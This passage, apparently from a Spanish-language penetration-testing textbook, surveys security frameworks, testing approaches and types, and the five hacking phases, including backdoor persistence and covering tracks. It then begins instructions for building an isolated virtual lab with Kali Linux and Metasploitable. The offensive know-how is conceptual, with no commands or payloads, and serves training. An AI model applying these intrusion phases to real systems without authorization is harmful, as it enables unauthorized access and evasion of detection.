### Instituto Nacional de Estándares y Tecnología (NIST)

**NIST** significa **Instituto Nacional de Estándares y Tecnología** . NIST es una división del gobierno de los EE. UU. y publica una serie de publicaciones especiales que definen las mejores prácticas, así como los estándares que las organizaciones deben emplear para mejorar su seguridad. Es importante comprender el NIST para poder relacionar los hallazgos o las vulnerabilidades descubiertas con las reglas correspondientes a fin de ayudar a las organizaciones a comprender las implicaciones de cumplimiento de los problemas descubiertos durante la evaluación.

En ocasiones, una organización objetivo puede requerir pruebas de seguridad utilizando un marco o estándar específico. Estar familiarizado con OSSTMM puede resultar útil para sus interacciones con la organización objetivo como evaluador de penetración.


### OSSTMM

**OSSTMM** son las siglas de **Open Source Security Testing Methodology Manual (Manual de metodología de pruebas de seguridad de código abierto)** . Se trata de un conjunto de estándares de pruebas de seguridad impulsado por la comunidad, actualizado con frecuencia y revisado por pares que todo hacker ético debería conocer y mantener actualizado. Estos estándares tienden a cubrir una amplia gama de temas de pruebas y son especialmente valiosos para quienes ingresan a la industria, ya que los ayudan a comprender mejor el proceso y las mejores prácticas de prueba.

El conocimiento adquirido en OSSTMM será de gran utilidad como evaluador de intrusiones. En la siguiente sección, analizaremos los beneficios de comprender también SANS 25.

### SANS 25

**SANS 25** es una lista de los [25 principales](https://www.sans.org/top25-software-errors/) dominios de seguridad según la definición del SANS Institute. Al realizar evaluaciones, es bueno estar familiarizado con esta lista y comprender cómo tus hallazgos se relacionan con ella. Además, comprender los 25 principales dominios puede ayudar a aumentar la amplitud de su conocimiento sobre las vulnerabilidades de seguridad. Estos problemas suelen extenderse mucho más allá de lo que se descubrirás mediante solo pruebas de penetración, y comprender estos problemas puede incluso ayudarnos a identificar vulnerabilidades adicionales o tendencias de riesgo durante sus evaluaciones.

En mis oportunidades laborales, el empleador generalmente quiere asegurarse de que su evaluador de penetración esté familiarizado y comprenda cada uno de estos marcos y estándares de evaluación de penetración. Esta información es útil cuando se realiza una prueba o auditoría de seguridad en una organización de una industria en particular.

Ahora que comprende mejor las metodologías de pruebas de penetración más populares, profundicemos en los tres enfoques de pruebas de penetración.


## Enfoques de pruebas de penetración

Los siguientes son diferentes enfoques para realizar una prueba de penetración en una organización objetivo:

- Caja blanca
- Caja negra
- Caja gris

Veamos qué implica cada uno de ellos.


### Caja blanca

Una evaluación de caja blanca es típica de las pruebas de aplicaciones web, pero puede extenderse a cualquier forma de prueba de penetración. La diferencia clave entre las pruebas de caja blanca, negra y gris es la cantidad de información que se proporciona a los evaluadores antes de la contratación. En una evaluación de caja blanca, se le proporcionará al evaluador información completa sobre la aplicación y su tecnología, y generalmente se le proporcionarán credenciales con distintos grados de acceso para identificar de manera rápida y exhaustiva las vulnerabilidades en las aplicaciones, los sistemas o las redes.

No todas las pruebas de seguridad se realizan con el método de caja blanca; a veces, solo se proporciona el nombre de la empresa objetivo al evaluador de penetración. A continuación, abordaremos los aspectos básicos de las pruebas de caja negra.

### Caja negra

Las evaluaciones de caja negra son la forma más común de evaluación de penetración de red y son las más típicas entre las pruebas de penetración de red externa y las pruebas de penetración de ingeniería social. En una evaluación de caja negra, los evaluadores reciben muy poca o ninguna información sobre las redes o sistemas que están probando. Esta forma particular de prueba es ineficiente para la mayoría de los tipos de pruebas de aplicaciones web debido a la necesidad de credenciales para probar vulnerabilidades autenticadas, como la escalada de privilegios lateral y vertical.

En situaciones donde las pruebas de caja negra no son adecuadas, existe otro enfoque entre la caja blanca y la caja negra: se conoce como caja gris.

### Caja gris

Las evaluaciones de caja gris son una combinación de pruebas de caja blanca y negra, y se utilizan normalmente para proporcionar un escenario de prueba realista y, al mismo tiempo, dar a los evaluadores de penetración suficiente información para reducir el tiempo necesario para realizar el reconocimiento y otras actividades de prueba de caja negra. Además de esto, es importante en cualquier evaluación asegurarse de que se están probando todos los sistemas incluidos en el alcance. En una verdadera caja negra, es posible pasar por alto sistemas y, como resultado, dejarlos fuera de la evaluación. La caja gris suele ser la mejor forma de prueba de penetración de red, ya que proporciona el mayor valor a los clientes.

Cada método de prueba de penetración es diferente del otro y es fundamental que conozca todos ellos. Imagine que un cliente potencial nos llama para solicitar una prueba de caja negra en su red externa; como evaluadores de penetración, debemos estar familiarizados con los términos y con lo que se espera de ellos.

Ahora que hemos cubierto los diferentes enfoques de pruebas, profundicemos en los distintos tipos de pruebas de penetración.


## Tipos de pruebas de penetración

El escaneo de vulnerabilidades y puertos no puede identificar los problemas que las pruebas manuales pueden detectar, y esta es la razón por la que una organización contrata a evaluadores de penetración para realizar estas evaluaciones. Realizar escaneos en lugar de realizar pruebas manuales es una forma de fraude y, en mi opinión, es muy poco ético. Si no puede realizar pruebas, practique, practique y practique un poco más. Más adelante en este libro, aprenderá formas legales de mejorar su técnica.

En las siguientes secciones, profundizaremos en varios tipos de pruebas de penetración.

### Pruebas de penetración de aplicaciones web

**La prueba de penetración de aplicaciones web**, en adelante denominada **WAPT**, es la forma más común de prueba de penetración y probablemente sea el primer trabajo de prueba de penetración en el que se involucrarán la mayoría de las personas que lean este libro. WAPT es el acto de realizar pruebas de penetración o piratería manual en una aplicación web para probar vulnerabilidades que los escáneres no encontrarán. Con demasiada frecuencia, los evaluadores envían escaneos de vulnerabilidad de aplicaciones web en lugar de buscar y verificar manualmente los problemas dentro de las aplicaciones web.

Ahora que tiene la comprensión esencial de WAPT, echemos un vistazo a las pruebas de penetración de aplicaciones móviles en la siguiente sección.

### Pruebas de penetración de aplicaciones móviles

Las pruebas de penetración de aplicaciones móviles son similares a las pruebas de penetración de aplicaciones web, pero son específicas para aplicaciones móviles que contienen sus propios vectores de ataque y amenazas. Se trata de una forma de prueba de penetración en auge que ofrece muchas oportunidades para quienes buscan adentrarse en el mundo de las pruebas de penetración y tienen conocimientos sobre el desarrollo de aplicaciones móviles.

Como habrás notado, cada uno de los diferentes tipos de pruebas de penetración tiene objetivos específicos. A continuación, analizaremos un enfoque más orientado al ser humano: la ingeniería social.

### Pruebas de penetración de ingeniería social

En mi opinión, las pruebas de penetración de ingeniería social son el tipo de prueba que más adrenalina genera. La ingeniería social es el arte de manipular la psicología humana básica para encontrar vulnerabilidades humanas y lograr que las personas hagan cosas que de otra manera no harían. Durante esta forma de prueba de penetración, es posible que se le pida que realice actividades como enviar correos electrónicos de phishing, hacer llamadas telefónicas de vishing o entrar a instalaciones seguras para determinar qué podría lograr un atacante que tenga como objetivo a su personal. Personalmente, he obtenido acceso de administrador de dominio por teléfono, he entrado a bóvedas de bancos y cajas de dinero de casinos, y he entrado a un centro de datos de Fortune 500.

Existen muchos tipos de ataques de ingeniería social, que se abordarán más adelante en este libro. Lo más común es que se le asigne la tarea de realizar auditorías de seguridad en sistemas y redes. En la siguiente sección, analizaremos las pruebas de penetración en la red.

### Pruebas de penetración de red

Las pruebas de penetración de redes se centran en identificar las debilidades de seguridad en un entorno específico. Los objetivos de las pruebas de penetración son identificar las fallas en los sistemas de la organización objetivo, sus redes (cableadas e inalámbricas) y sus dispositivos de red, como conmutadores y enrutadores.

Las siguientes son algunas tareas que se realizan mediante pruebas de penetración de red:

- Cómo eludir un **sistema de detección de intrusiones** (**IDS**) o **un sistema de prevención de intrusiones** (**IPS**)
- Cómo eludir los dispositivos de firewall
- Descifrado de contraseñas
- Obtener acceso a dispositivos finales y servidores
- Explotación de configuraciones erróneas en conmutadores y enrutadores

Ahora que tiene una mejor idea de los objetivos de las pruebas de penetración de red, echemos un vistazo al propósito de las pruebas de penetración en la nube.

### Pruebas de penetración en la nube

Las pruebas de penetración en la nube implican realizar evaluaciones de seguridad y pruebas de penetración sobre los riesgos de las plataformas en la nube para descubrir cualquier vulnerabilidad que pueda exponer información confidencial a usuarios maliciosos.

Antes de intentar contratar directamente una plataforma en la nube, asegúrate de contar con el permiso legal del proveedor. Por ejemplo, si vas a realizar pruebas de penetración en la plataforma Azure, necesitarás el permiso legal de Microsoft.

En la siguiente sección, cubriremos los conceptos esenciales de las pruebas de penetración física.

### Prueba de penetración física

Las pruebas de penetración física se centran en probar los sistemas de control de acceso de seguridad física implementados para proteger los datos de una organización. Existen controles de seguridad dentro de las oficinas y los centros de datos para evitar que personas no autorizadas ingresen a las áreas seguras de una empresa.

Los controles de seguridad física incluyen lo siguiente:

- **Cámaras y sensores de seguridad** : Las cámaras de seguridad se utilizan para monitorear acciones físicas dentro de un área.
- **Sistemas de autenticación biométrica** : La biometría se utiliza para garantizar que sólo las personas autorizadas tengan acceso a un área.
- **Puertas y cerraduras** : Los sistemas de bloqueo se utilizan para evitar que personas no autorizadas entren en una habitación o área.
- **Guardias de seguridad** : Los guardias de seguridad son personas que están asignadas para proteger algo, a alguien o un área.

Una vez que haya completado esta sección, podrá describir los distintos tipos de pruebas de penetración. El camino que le espera no estará completo si no comprende las fases del hackeo. Las distintas fases del hackeo se tratarán en la siguiente sección.

## Fases del hackeo

Durante cualquier entrenamiento de prueba de penetración, se encontrará con las cinco fases de piratería informática. Estas fases son las siguientes:

1. Reconocimiento
2. Exploración
3. Ganando acceso
4. Mantener el acceso
5. Cubriendo pistas

En las siguientes secciones describiremos cada uno en detalle.

### Reconocimiento o recopilación de información

La fase de reconocimiento o recopilación de información es donde el atacante se centra en obtener información significativa sobre su objetivo. Esta es la fase más importante del hackeo: cuantos más detalles se conozcan sobre el objetivo, más fácil será comprometer una debilidad y explotarla.

Las siguientes son técnicas utilizadas en la fase de reconocimiento:

- Utilizando motores de búsqueda para recopilar información
- Uso de plataformas de redes sociales
- Realizando hackeo de Google
- Realizar una interrogación DNS
- Ingeniería social

En esta fase, el objetivo es recopilar la mayor cantidad de información posible sobre el objetivo. En la siguiente sección, analizaremos el uso de un enfoque más específico y la interacción con el objetivo para obtener información más específica y detallada.

### Exploración

La segunda fase del hackeo es el escaneo. El escaneo implica utilizar un enfoque directo para atacar al objetivo y obtener información a la que no se puede acceder mediante la fase de reconocimiento. Esta fase implica la elaboración de un perfil de la organización objetivo, sus sistemas y su infraestructura de red.

Las siguientes son técnicas utilizadas en la fase de escaneo:

- Comprobando si hay sistemas activos
- Comprobación de firewalls y sus reglas
- Comprobación de puertos de red abiertos
- Comprobando si hay servicios en ejecución
- Comprobación de vulnerabilidades de seguridad
- Creación de una topología de red de la red de destino

Esta fase es muy importante ya que nos ayuda a crear un perfil del objetivo. La información que se encuentre en esta fase nos ayudará a pasar a realizar la explotación en el sistema o red objetivo.

### Ganando acceso

Esta fase puedes ser, en ocasiones, la más complicada de todas. En ella, el atacante utiliza la información obtenida en las fases anteriores para explotar el objetivo. Una vez que haya explotado las vulnerabilidades, podrá ejecutar de forma remota código malicioso en el objetivo y obtener acceso remoto al sistema comprometido.

Una vez obtenido el acceso, Puedes ocurrir lo siguiente:

- Descifrado de contraseñas
- Explotación de vulnerabilidades
- Aumento de privilegios
- Ocultar archivos
- Movimiento lateral

La fase de obtención de acceso (explotación) Puedes ser a veces difícil, ya que los exploits pueden funcionar en un sistema y no en otro. Una vez que un exploit tiene éxito y se obtiene acceso al sistema, la siguiente fase es asegurarse de tener una conexión persistente con el objetivo.

### Mantener el acceso

Después de explotar un sistema, el atacante normalmente debe asegurarse de poder acceder al sistema de la víctima en cualquier momento mientras el sistema esté en línea. Esto se hace creando un acceso de puerta trasera en el objetivo y configurando una conexión inversa o de enlace persistente entre las máquinas del atacante y el sistema de la víctima.

Los objetivos del mantenimiento del acceso son los siguientes:

- Movimiento lateral
- Exfiltración de datos
- Creación de conexiones persistentes y de puerta trasera

Mantener el acceso es importante para garantizar que usted, el evaluador de penetración, siempre tenga acceso al sistema o red de destino. Una vez que se haya completado el aspecto técnico de la prueba de penetración, es hora de limpiar la red.

### Cubriendo pistas

La última fase consiste en cubrir sus huellas. Esto garantiza que no deje ningún rastro de su presencia en un sistema comprometido. Como evaluadores de penetración, nos gustaría ser lo más indetectables posible en la red de un objetivo, sin activar ninguna alerta mientras eliminamos cualquier rastro residual de las acciones realizadas durante la prueba de penetración.

Cubrir pistas garantiza que no dejes ningún rastro de tu presencia en la red, ya que una prueba de penetración está diseñada para ser sigilosa y simular ataques del mundo real a una organización.

## Resumen

Durante este capítulo, analizamos los diferentes tipos de piratas informáticos y describimos sus características principales. Se abordaron los distintos tipos de pruebas de penetración y sus fases, además de una exploración de las metodologías y los enfoques de prueba más populares que se utilizan en la industria de la ciberseguridad.

Ahora puedes comparar y contrastar los diferentes tipos de piratas informáticos. Ha adquirido conocimientos y comprensión de varios términos utilizados en la industria de la ciberseguridad y ha comprendido la importancia y las diferentes fases de las pruebas de penetración. Puedes distinguir entre varios tipos de pruebas de penetración, como las pruebas de penetración en red, web e incluso en la nube.

En el Capítulo 2, *Configuración de Kali - Parte 1*, y el Capítulo 3, *Configuración de Kali - Parte 2*, cubriremos los pasos necesarios para configurar su propio laboratorio de pruebas de penetración virtual para practicar y desarrollar su conjunto de habilidades. Espero que este capítulo haya sido útil e informativo para sus estudios y su carrera.

## Preguntas

1. ¿Qué tipo de hacker depende de instrucciones y herramientas creadas por otros pero no comprende los aspectos técnicos del hacking?
2. ¿Cuál es la última fase del hackeo?
3. ¿Qué metodología de pruebas de penetración se utiliza en aplicaciones web?
4. ¿Cuál es el enfoque en el que el evaluador de penetración tiene el menor conocimiento sobre el objetivo?
5. ¿Qué tipo de hacker trabaja para el gobierno de una nación?


## Otras lecturas

- **Metodologías de pruebas de penetración** : https://www.owasp.org/index.php/Penetration_testing_methodologies
- **Fases de las pruebas de penetración**: https://www.imperva.com/learn/application-security/penetration-testing/


# Configuración de Kali - Parte 1

Como futuro hacker ético y/o evaluador de penetración, es muy importante que al probar cargas útiles o practicar habilidades de piratería no interrumpa ni cause ningún tipo de daño o perjuicio a las computadoras o la infraestructura de red de otras personas, como la de su organización. Para explicarlo mejor, utilizaremos una analogía simple. Imagine que trabaja para una empresa llamada ACME (una organización ficticia) y es el administrador de la red/sistema. Su director de TI ha notado que expresa interés en la ciberseguridad y que tiene un potencial significativo para convertirse en evaluador de penetración o hacker ético. Por lo tanto, aprueban la capacitación oficial en certificación de pruebas de penetración para usted. Una vez que finaliza la capacitación, el acceso a los laboratorios virtuales a través del **Centro de capacitación autorizado** (**ATC**) generalmente finaliza, lo que plantea un verdadero desafío para usted: ¿cómo va a practicar sus habilidades de piratería cuando finalice el curso de capacitación y el acceso al laboratorio? Otro desafío es el hecho de que practicar técnicas de piratería en la red de una organización es intrusivo e ilegal.

Esto nos lleva a la importancia de construir nuestro propio entorno de laboratorio personal para practicar y mejorar nuestras habilidades. Además, tener nuestro propio laboratorio de pruebas de penetración nos permitirá probar nuevos ataques, herramientas y técnicas sin preocuparnos por ser intrusivos o crear una brecha de seguridad en la red de una empresa. Lo más importante es que, a lo largo de este capítulo, aprenderá sobre la importancia de construir y diseñar un laboratorio de pruebas de penetración adecuado para practicar diversas técnicas de piratería en los sistemas operativos Windows y Linux.

En este capítulo cubriremos los siguientes temas:

- Descripción general del laboratorio
- Construyendo nuestro laboratorio
- Configuración de Kali Linux
- Instalación de Nessus
- Configuración de emuladores de Android
- Instalación de Metasploitable 2

## Requerimientos técnicos

Para seguir los ejercicios de este capítulo, asegúrate de cumplir con los siguientes requisitos de hardware y software:

- Máquina virtual Oracle VirtualBox
- Estación de trabajo VMware Pro
- Kali Linux~~2019~~ 2024.2
- Escáner de vulnerabilidades de Nessus
- Sistema operativo Android (versión x86 4.4-r4)
- Metasploitable 2


## Descripción general del laboratorio

En esta sección, analizaremos la metodología y los componentes necesarios para diseñar y configurar nuestro propio laboratorio de pruebas de penetración. Para construir nuestro laboratorio, crearemos una infraestructura de laboratorio virtual para asegurarnos de poder ahorrar dinero, en lugar de tener que comprar computadoras físicas y equipos de red.

En las siguientes secciones, comenzaremos a analizar la importancia de utilizar la virtualización para crear nuestro entorno de laboratorio de pruebas de penetración, ya que la virtualización desempeña un papel importante en este capítulo y en el resto del libro. Después, nos adentraremos en la instalación de Kali Linux y en la creación de una red virtual.

## Virtualización

En mi experiencia como estudiante, docente y profesional, cuando una persona se embarca en sus estudios en el campo de la TI, normalmente cree que definitivamente es necesaria una infraestructura de laboratorio física. Hasta cierto punto, esto es cierto, pero existen muchas desventajas asociadas con la construcción de un laboratorio físico.

Estas desventajas incluyen, pero no se limitan a, las siguientes:

- El espacio físico necesario para almacenar los numerosos servidores y dispositivos de red que se necesitan.
- El consumo de energía por dispositivo resultará en un elevado gasto financiero general.
- El costo de construir/comprar cada dispositivo físico, ya sea un dispositivo de red o un servidor.

Estas son sólo algunas de las principales preocupaciones de un estudiante o principiante. En la mayoría de los casos, una persona tiene un solo ordenador, ya sea de sobremesa o portátil. El concepto de **virtualización**, surgido como respuesta a estos inconvenientes, abrió multitud de puertas en el ámbito de las TI y permitió a muchas personas y organizaciones optimizar y gestionar sus recursos de hardware de forma eficiente .

*¿Qué es la virtualización y cómo resulta útil?* El concepto de virtualización dentro de la industria de TI permite a las organizaciones reducir la necesidad de múltiples elementos de equipo físico, como servidores y dispositivos de red y seguridad. En los primeros días de TI, un sistema operativo como Microsoft Windows Server debía instalarse en un solo dispositivo físico. Por lo general, un dispositivo similar a un servidor constaba de un procesador de alta gama para la CPU, grandes cantidades de RAM y mucho almacenamiento. Sin embargo, muchas veces los recursos de hardware (CPU y RAM) no eran utilizados por el sistema operativo anfitrión (Microsoft Windows Server). Este desperdicio de recursos se conoce comúnmente como **proliferación de servidores** .

El siguiente diagrama muestra tres servidores físicos, cada uno con su propio sistema operativo host y recursos de hardware disponibles:



Para ver rápidamente el uso de los recursos en un sistema operativo Microsoft Windows, simplemente abra el Administrador de tareas y selecciona la pestaña Rendimiento . La siguiente captura de pantalla es una captura de mi dispositivo actual.

Podemos ver que la CPU, la memoria y otros recursos están actualmente subutilizados; al observar de cerca los gráficos de **CPU** y **memoria**, podemos ver que no superan el 80%-90% y se está utilizando menos del 50% de su capacidad:



¿Qué pasaría si pudiéramos ejecutar varios sistemas operativos (como Windows y Linux) en un único dispositivo físico? Sin duda, podríamos utilizar la virtualización. Esto nos permitiría gestionar mejor y maximizar de forma eficiente los recursos disponibles, mediante un componente conocido como **hipervisor** .

## Hipervisores

El hipervisor es el componente más importante de la virtualización. Es el responsable de crear un entorno emulado que utiliza un sistema operativo invitado para funcionar. Cada tipo de sistema operativo, independientemente de si está diseñado para un equipo de escritorio, un servidor, una red o un dispositivo móvil, requiere componentes de hardware específicos para garantizar un funcionamiento óptimo y sin problemas. Aquí es donde el hipervisor hace su magia para hacer que suceda lo imposible, lo que le permite ejecutar varios sistemas operativos diferentes en una sola computadora.

Un hipervisor se puede instalar de dos maneras en un dispositivo de hardware, lo que se explorará con más detalle más adelante en este capítulo:

- se puede instalar sobre un sistema operativo host, como Windows, Linux o macOS.
- se puede instalar directamente sobre el hardware para funcionar como el sistema operativo nativo .

Un **sistema operativo host** se refiere al sistema operativo que se instala directamente en un dispositivo, como una computadora de escritorio o portátil que ejecuta Windows 10. Un **sistema operativo invitado** es un sistema operativo que se instala dentro de un hipervisor (considerado virtualizado).

A continuación se enumeran los tipos de hipervisores disponibles:

- Tipo 1
- Tipo 2

En las siguientes dos secciones, analizaremos los dos tipos de hipervisores y comprenderemos sus similitudes y diferencias.

### Hipervisor tipo 1

A un hipervisor de tipo 1 a veces se lo denomina **hipervisor de hardware,** ya que normalmente se implementa directamente en el hardware del servidor físico. En este modelo, cualquier sistema operativo que esté instalado en el hipervisor tiene acceso directo a los recursos de hardware, como la CPU, la RAM y la **tarjeta de interfaz de red** (**NIC**). Este modelo permite que cada sistema operativo invitado interactúe directamente con cualquier componente de hardware disponible en el dispositivo físico; por lo tanto, el modelo de implementación es más eficiente que el modelo de tipo 2.

El siguiente diagrama ilustra cómo cada sistema operativo invitado (máquina virtual) interactúa con los componentes físicos de hardware de un único chasis de servidor físico a través del hipervisor. Por ejemplo, las máquinas virtuales tienen acceso directo al hardware físico a través del hipervisor:



La siguiente es una lista de hipervisores de tipo 1 tanto gratuitos como comerciales:

- VMware ESXi (gratis)
- VMware ESX (comercial)
- Servidor Microsoft Hyper-V (gratis)
- XCP-ng (gratuito/comercial)

Ahora que comprende mejor el hipervisor tipo 1, aprendamos sobre el hipervisor tipo 2.


### Hipervisor tipo 2

En un modelo de implementación de hipervisor de tipo 2, la aplicación de hipervisor se instala sobre un sistema operativo host en lugar de hacerlo directamente sobre los componentes de hardware . Algunos ejemplos de sistemas operativos host son Microsoft Windows, Apple macOS y varias versiones de Linux. El hipervisor no tiene acceso directo a los recursos de hardware del sistema local, como lo tendría en el modelo de implementación de tipo 1. En cambio, el hipervisor en una implementación de tipo 2 interactúa con el sistema operativo host para acceder a los recursos disponibles. El sistema operativo host generalmente requiere una cierta cantidad de recursos, como el uso de CPU y RAM, para funcionar de manera óptima, y el resto se proporciona al hipervisor de tipo 2 para las máquinas virtuales invitadas.

El siguiente diagrama ilustra cómo cada componente interactúa con los demás en un único sistema, como una computadora de escritorio o portátil. Si nos fijamos bien, cada máquina virtual tiene acceso indirecto a los recursos (CPU, memoria, etc.). El sistema operativo tendrá prioridad en lo que respecta a los recursos de hardware y lo que quede se pondrá a disposición de las máquinas virtuales en ejecución:



A continuación se muestra una breve lista de hipervisores de tipo 2. Tenga en cuenta que algunos son gratuitos, mientras que otros son comerciales:

- Microsoft Virtual PC (gratis)
- Oracle VM VirtualBox (gratis)
- VMware Player (gratis)
- VMware Workstation Pro (comercial)
- VMware Fusion (comercial)
- Parallels Desktop para Mac (comercial)

Quizás te preguntes qué hipervisor es la mejor opción: ¿el tipo 1 o el tipo 2? Honestamente, depende de tu situación. Personalmente, tengo un hipervisor tipo 2 instalado en mi computadora portátil con algunas máquinas virtuales, que uso para capacitación y otras situaciones en ubicaciones remotas. Mientras estoy en casa, tengo un hipervisor tipo 1 instalado en una Intel NUC en mi laboratorio doméstico, que tiene múltiples máquinas virtuales, cada una para un propósito diferente.

Ahora que tienes una mejor idea de los conceptos de hipervisores, aprendamos sobre las características de un hipervisor, ya que eso nos ayudará a construir una red virtual para crear nuestro laboratorio de pruebas de penetración.

## Componentes adicionales

En esta sección, describimos los componentes adicionales necesarios para completar nuestro laboratorio, incluido un vistazo a qué son los conmutadores virtuales y los diferentes tipos de sistemas operativos que vamos a utilizar en el laboratorio.

### Conmutadores virtuales

Es posible que se pregunte, ya que vamos a crear un entorno de laboratorio virtualizado, cómo vamos a crear una red para garantizar que todas las distintas máquinas virtuales tengan conectividad entre sí. ¿Necesitamos algunos cables de red, un conmutador de red o incluso otros dispositivos de red? Lo más importante es que debemos asegurarnos de que nuestro entorno virtual esté aislado del resto de nuestra red existente y de Internet, ya que no queremos lanzar un ataque involuntario a un servidor público, ya que esto sería ilegal y conllevaría complicaciones legales.

Afortunadamente para nosotros, cada hipervisor contiene un conmutador virtual, que nos proporciona una funcionalidad básica de conmutación de capa 2. Algunos hipervisores proporcionan asignaciones de **LAN virtual** (**VLAN**) en sus conmutadores virtuales, mientras que otros no. Dado que estamos procediendo a construir un laboratorio virtual aislado, necesitaremos un único conmutador virtual para conectar nuestra máquina atacante con las otras máquinas vulnerables.

### Sistemas operativos

Como futuro hacker ético, evaluador de penetración o profesional de la ciberseguridad, se recomienda que pruebes varias técnicas para simular ataques reales en diferentes tipos de sistemas operativos. En ocasiones, cuando estés realizando una prueba de penetración o una evaluación de vulnerabilidad en la red y los servidores de una organización, te encontrarás con muchos sistemas operativos diferentes. Usaremos los siguientes sistemas operativos en nuestro entorno de laboratorio y te proporcionaré un enlace de descarga para cada sistema operativo:

- **Windows 10**: https://www.microsoft.com/es-es/evalcenter/evaluate-windows-10-enterprise
- **Windows Server 2016**: https://www.microsoft.com/en-us/evalcenter/evaluate-windows-server-2016
- **Servidor Ubuntu**: https://www.ubuntu.com/download/server
- **Kali Linux**: https://www.kali.org/downloads/
- **Metasploitable**: https://sourceforge.net/projects/metasploitable/files/Metasploitable2/
- **OWASPBWA**: https://sourceforge.net/projects/owaspbwa/

Cada sistema operativo que se menciona aquí tiene un propósito único en nuestro laboratorio. Enseguida ejecutaremos varios tipos de ataques en cada uno de ellos.

El Centro de evaluación de Microsoft (https://www.microsoft.com/en-us/evalcenter/) permite a los usuarios descargar y probar cualquier aplicación y sistema operativo disponible en su plataforma durante un período de 180 días, al tiempo que proporciona soporte funcional completo para la aplicación de su elección.

El **Proyecto de seguridad de aplicaciones web abiertas** (**OWASP**) (https://www.owasp.org) ha creado una máquina virtual que permite a los profesionales de la ciberseguridad ejecutar varias aplicaciones con vulnerabilidades conocidas; se trata de la máquina virtual **OWASP Broken Web Applications** (**OWASPBWA**). Metasploitable es una máquina virtual vulnerable basada en Linux creada por Rapid7 (https://www.rapid7.com). Su objetivo es ayudar a las personas a aprender y practicar pruebas de penetración en un entorno seguro.

En esta sección, cubrimos los aspectos esenciales de la virtualización (incluido el componente principal, el hipervisor) y ahora estamos listos para crear entornos de laboratorio virtuales que admitan muchos sistemas operativos y casos de uso. En la siguiente sección, veremos cómo juntar todas las piezas y construir nuestro laboratorio.


## Construyendo nuestro laboratorio

Ahora es el momento de ensamblar todos los componentes y configurar nuestro propio laboratorio de pruebas de penetración. Necesitaremos decidir qué recursos están disponibles actualmente para nosotros antes de elegir un tipo de hipervisor. Si actualmente tiene una sola computadora portátil o de escritorio, usaremos un hipervisor de tipo 2, como Oracle VM VirtualBox o VMware Workstation Pro. Como se mencionó anteriormente, una implementación de hipervisor de tipo 2 nos permitirá usar nuestros recursos existentes, como una sola computadora portátil o de escritorio, para construir nuestro entorno de laboratorio virtual, sin preocuparnos por comprar componentes de hardware adicionales, como servidores.

Para comenzar a instalar nuestro hipervisor, descarguemos e instalemos Oracle VM VirtualBox:

1. Vaya a www.virtualbox.org, luego navega a la sección Descargas del sitio web y elije tu tipo de plataforma según tu sistema operativo actual:



1. Una vez que se haya descargado la aplicación, es momento de instalarla. Asegúrate de utilizar las configuraciones predeterminadas que se muestran durante el asistente de instalación. Una vez completado, abra VirtualBox para asegurarse de que la instalación se haya realizado correctamente. Debería aparecer algo similar a la siguiente captura de pantalla:



1. De manera opcional, si prefiere utilizar VMware Workstation para su laboratorio, actualmente está disponible en https://www.vmware.com/products/workstation-pro.html . Una vez descargada, proceda a instalar la aplicación utilizando la configuración predeterminada durante el proceso de instalación. Una vez completado, debería aparecer la interfaz de usuario, como se muestra en la siguiente captura de pantalla:



Si está utilizando una versión anterior de Oracle VM VirtualBox o VMware Workstation, no necesita actualizarla, ya que las ediciones anteriores ya contienen las características necesarias para continuar configurando nuestro laboratorio.

Uno de los aspectos más importantes a la hora de diseñar un laboratorio de pruebas de penetración adecuado es garantizar que tengamos el diseño de red óptimo para interconectar nuestras máquinas virtuales. En la siguiente sección, explicaremos en detalle cómo crear una red virtual utilizando Oracle VM VirtualBox y VMware Workstation Pro.

### Creando una red virtual

El siguiente diagrama muestra la topología de red general que vamos a utilizar en nuestro entorno de laboratorio virtual:



En la siguiente sección, asignaremos una dirección IP adecuada a cada máquina virtual dentro de nuestro laboratorio. Cada máquina virtual está interconectada mediante un conmutador virtual dentro del hipervisor. No se requieren enrutadores, ya que este es solo un diseño de laboratorio simple.

Una máquina Windows Server 2008 es opcional y no es obligatoria.

Veamos cómo construir una red virtual:

1. Si está utilizando VirtualBox, haz clic en el ícono de menú en el lado derecho de Herramientas | Red :


Se abrirá una nueva ventana que le dará la opción de Crear, Eliminar o modificar las propiedades de un adaptador de red virtual. En este ejercicio, vamos a crear un nuevo adaptador virtual, que se utilizará para conectar cada una de nuestras máquinas virtuales dentro del hipervisor. Esto logra el efecto de un conmutador virtual.

1. Haz clic en Crear para agregar un nuevo adaptador virtual:



Su sistema operativo host tardará unos minutos en crear el nuevo adaptador de red virtual en su computadora.

1. Una vez creado el adaptador de red virtual, el componente de administrador de red de VirtualBox asignará automáticamente una dirección IP a la interfaz. Sin embargo, vamos a configurar el esquema de direcciones IP según nuestras preferencias. Para comenzar, simplemente selecciona el adaptador de red virtual y luego haz clic en Propiedades para modificar las configuraciones.
2. Asegúrate de elegir la opción para configurar el adaptador manualmente, utilizando la dirección IP y la máscara de subred que se muestran en la siguiente captura de pantalla. Haz clic en Aplicar para registrar las configuraciones en el adaptador de red:



1. De manera opcional, podemos configurar el servidor **de Protocolo de configuración dinámica de host** (**DHCP**) en el adaptador de red virtual para proporcionar un rango de direcciones IP a cada máquina virtual que esté conectada a esta red virtual. Si desea habilitar el servicio DHCP, utiliza las siguientes configuraciones:



1. Para aquellos que prefieren VMware Workstation, tenemos lo que necesitan. Configurar una red virtual dentro de VMware Workstation es bastante simple. Abra la aplicación VMware Workstation y selecciona Editar | Editor de red virtual... como se muestra en la siguiente captura de pantalla:



1. El **Control de acceso de usuario** (**UAC**) de Windows le solicitará privilegios de administrador. Una vez que proporcione la autorización, se abrirá la ventana Editor de red virtual. Como puedes ver, hay tres adaptadores de red virtuales presentes:



Vamos a modificar el adaptador virtual VMnet1 . El adaptador solo para host crea una red virtual para todas las máquinas virtuales conectadas y el equipo host. Este tipo de configuración permite que todas las máquinas virtuales se comuniquen sin problemas mientras están aisladas y en ausencia de una conexión a Internet.

1. Para modificar el adaptador VMnet1, seleccione el adaptador y ajuste sus configuraciones, como se muestra en la siguiente captura de pantalla:



Estas configuraciones replican las ejecutadas anteriormente en Oracle VM VirtualBox.

Ahora que tenemos el conocimiento necesario para construir nuestra red virtual utilizando Oracle VM VirtualBox y VMware Workstation Pro, comencemos a instalar máquinas virtuales y configurar Kali Linux en nuestro laboratorio.

### Configuración de Kali Linux

Vamos a configurar nuestra primera máquina virtual, nuestra máquina atacante, Kali Linux. El sistema operativo Kali Linux es una plataforma Linux basada en Debian que consta de más de 300 herramientas tanto para pruebas de penetración como para análisis forense. Es una de las plataformas más populares que utilizan los evaluadores de penetración, ya que contiene muchas características y una funcionalidad considerable, como las siguientes:

- Cifrado de disco completo
